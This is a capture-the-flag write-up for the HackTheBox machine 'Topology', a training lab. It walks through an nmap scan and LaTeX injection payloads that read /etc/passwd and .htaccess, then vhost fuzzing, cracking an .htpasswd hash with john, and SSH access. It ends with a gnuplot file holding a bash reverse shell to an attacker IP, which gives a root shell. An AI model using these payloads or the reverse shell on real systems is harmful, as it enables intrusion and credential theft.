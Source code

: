HackTheBox - Topology
NMAP

Nmap scan report for 10.10.11.217
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

PORT (80)

Visiting the webserver, we'll have a static page

This page lists software projects, out of which Latex Equation Generator takes us to `latex.topology.htb

Adding the domain name in /etc/hosts file

Putting \input{/etc/passwd} will result to an illegal command

Most of the commands were blacklisted, we can only read the first line of files with:

\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file

We can make it read more lines but the limit was 3-4 lines

\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\read\file to\line
\text{\line}
\read\file to\line
\text{\line}
\read\file to\line
\text{\line}
\closein\file

Exceeding 4 lines, we'll get an error

Visiting the site the site with it's root directory / will reveal directory listing having tempfolder, in that folder we'll find texput.log

So `\write18` is restricted, we cannot use it to execute commands neither read files, we can try fuzzing for vhosts using `wfuzz ` ```bash wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://topology.htb' -H "Host: FUZZ.topology.htb" --hh 6767 ```

This finds two more vhosts, dev and stats, stats site doesn't really have much

Dev site asks for credentials to access the site

Since the latex on the site is using inline math mode , we can try using lsinputlisting for reading local files and we need to use it with $ at the beginning and ending of the latex command

$\lstinputlisting{/etc/passwd}$

With this we can access the whole /etc/passwd file and see that the sites are being hosted in /var/www

We can read /var/www/dev/.htaccess file which shows that there's .htpasswd file

vadaisley's hash can be cracked with john

 john --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt

And now we can login through ssh

Checking sudo -l this user cannot run any commands as root or any user

In /opt there's folder gnuplot where we have only write access

From pspy we see gnuplot being ran as the root user and executing plt files

We can create a plt file with a bash reverse shell and move it in /opt/gnuplot

system "bash -i >& /dev/tcp/10.10.14.111/2222 0>&1"

After few seconds we'll see our plt being executed as root and receive a connection on our listener with a root shell

References

    https://0day.work/hacking-with-latex/
    https://texdoc.org/serve/latex2e.pdf/0
    https://www1.cmc.edu/pages/faculty/aaksoy/latex/latexthree.html
    https://en.wikibooks.org/wiki/LaTeX/Source_Code_Listings
    http://www.gnuplot.info/docs_4.2/node327.html
